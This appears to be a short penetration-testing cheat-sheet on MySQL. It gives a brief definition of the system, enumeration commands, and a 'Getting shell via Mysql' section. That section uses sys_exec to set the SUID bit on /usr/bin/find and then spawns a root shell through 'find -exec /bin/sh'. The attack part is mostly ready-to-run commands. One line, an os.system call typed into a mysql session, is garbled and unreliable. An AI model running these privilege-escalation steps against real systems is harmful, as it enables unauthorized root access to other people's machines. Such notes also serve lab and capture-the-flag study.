 ## What is mysql?
In its simplest definition, MySQL is a relational database management system (RDBMS) based on Structured Query Language (SQL)
Comprises of 3 components:
**Database:**
Organised collection of structured data.
**RDBMS:**
A software or a service used to create and manage databases based on a relational model .
**SQL:**
Structured query language is just a language to handel rdbms.
## Enumeration
1. Through nmap scan by `mysql-enum`
2. `mysql -h [IP] -u [user] -p`


### Getting shell via Mysql 
Getting root access to the MySQL that might be hosted on the target machine we can get it execute commands that can give us access to certain privileged information. The example shows how we execute certain mysql commands to change the persmission of the "find" executable.

```sh
mysql -u root -p
SELECT sys_exec('chmod u+s /usr/bin/find');
echo os.system('/bin/bash')
quit
```

Once we changed the permissions then we utilise that to out advantage and gain privileged access.

```bash
cd /tmp
touch temp_file
find temp_file -exec "/bin/sh" \;
```

